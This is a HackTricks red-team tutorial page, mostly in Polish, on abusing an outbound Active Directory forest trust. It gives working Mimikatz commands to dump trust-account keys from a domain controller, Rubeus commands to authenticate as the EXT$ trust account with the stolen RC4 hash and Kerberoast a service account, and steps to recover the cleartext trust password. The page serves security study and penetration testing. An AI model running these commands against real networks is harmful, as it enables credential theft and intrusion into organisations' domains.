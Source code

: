# External Forest Domain - One-Way (Outbound)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

W tym scenariuszu **twoja domena** **ufa** pewnym **uprawnieniom** dla głównego z **innych domen**.

## Enumeracja

### Zaufanie wychodzące
```powershell
# Notice Outbound trust
Get-DomainTrust
SourceName      : root.local
TargetName      : ext.local
TrustType       : WINDOWS_ACTIVE_DIRECTORY
TrustAttributes : FOREST_TRANSITIVE
TrustDirection  : Outbound
WhenCreated     : 2/19/2021 10:15:24 PM
WhenChanged     : 2/19/2021 10:15:24 PM

# Lets find the current domain group giving permissions to the external domain
Get-DomainForeignGroupMember
GroupDomain             : root.local
GroupName               : External Users
GroupDistinguishedName  : CN=External Users,CN=Users,DC=DOMAIN,DC=LOCAL
MemberDomain            : root.io
MemberName              : S-1-5-21-1028541967-2937615241-1935644758-1115
MemberDistinguishedName : CN=S-1-5-21-1028541967-2937615241-1935644758-1115,CN=ForeignSecurityPrincipals,DC=DOMAIN,DC=LOCAL
## Note how the members aren't from the current domain (ConvertFrom-SID won't work)
```
## Atak na konto zaufania

Występuje luka w zabezpieczeniach, gdy nawiązywana jest relacja zaufania między dwoma domenami, określonymi tutaj jako domena **A** i domena **B**, gdzie domena **B** rozszerza swoje zaufanie do domeny **A**. W tej konfiguracji w domenie **A** tworzone jest specjalne konto dla domeny **B**, które odgrywa kluczową rolę w procesie uwierzytelniania między tymi dwiema domenami. To konto, powiązane z domeną **B**, jest wykorzystywane do szyfrowania biletów do uzyskiwania dostępu do usług w różnych domenach.

Kluczowym aspektem do zrozumienia jest to, że hasło i hash tego specjalnego konta mogą być wyodrębnione z kontrolera domeny w domenie **A** za pomocą narzędzia wiersza poleceń. Polecenie do wykonania tej akcji to:
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' -ComputerName dc.my.domain.local
```
To extract this information, it is necessary to have a user account that is active and belongs to the "Domain Users" group of domain **A**, which allows for the authentication against domain **A** using the credentials of this account.

**Ostrzeżenie:** Możliwe jest wykorzystanie tej sytuacji do uzyskania dostępu do domeny **A** jako użytkownik, chociaż z ograniczonymi uprawnieniami. Niemniej jednak, ten dostęp jest wystarczający do przeprowadzenia enumeracji w domenie **A**.

W scenariuszu, w którym `ext.local` jest domeną ufającą, a `root.local` jest domeną zaufaną, konto użytkownika o nazwie `EXT$` zostanie utworzone w `root.local`. Dzięki określonym narzędziom możliwe jest zrzucenie kluczy zaufania Kerberos, ujawniając poświadczenia `EXT$` w `root.local`. Polecenie do osiągnięcia tego celu to:
```bash
lsadump::trust /patch
```
Następnie można użyć wyodrębnionego klucza RC4 do uwierzytelnienia jako `root.local\EXT$` w `root.local` za pomocą innej komendy narzędzia:
```bash
.\Rubeus.exe asktgt /user:EXT$ /domain:root.local /rc4:<RC4> /dc:dc.root.local /ptt
```
Ten krok uwierzytelniania otwiera możliwość enumeracji, a nawet wykorzystania usług w `root.local`, takich jak przeprowadzenie ataku Kerberoast w celu wydobycia poświadczeń konta usługi za pomocą:
```bash
.\Rubeus.exe kerberoast /user:svc_sql /domain:root.local /dc:dc.root.local
```
### Zbieranie hasła zaufania w postaci jawnej

W poprzednim przepływie użyto hasha zaufania zamiast **hasła w postaci jawnej** (które również zostało **wyciągnięte przez mimikatz**).

Hasło w postaci jawnej można uzyskać, konwertując wyjście \[ CLEAR ] z mimikatz z formatu szesnastkowego i usuwając bajty zerowe ‘\x00’:

![](<../../.gitbook/assets/image (938).png>)

Czasami podczas tworzenia relacji zaufania użytkownik musi wpisać hasło dla zaufania. W tej demonstracji klucz to oryginalne hasło zaufania i dlatego jest czytelne dla człowieka. Ponieważ klucz cyklicznie się zmienia (co 30 dni), hasło w postaci jawnej nie będzie czytelne dla człowieka, ale technicznie nadal będzie użyteczne.

Hasło w postaci jawnej można wykorzystać do przeprowadzenia zwykłej autoryzacji jako konto zaufania, co stanowi alternatywę dla żądania TGT przy użyciu tajnego klucza Kerberos konta zaufania. Tutaj zapytanie do root.local z ext.local o członków Domain Admins:

![](<../../.gitbook/assets/image (792).png>)

## Odniesienia

* [https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted](https://improsec.com/tech-blog/sid-filter-as-security-boundary-between-domains-part-7-trust-account-attack-from-trusting-to-trusted)

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się trikami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}
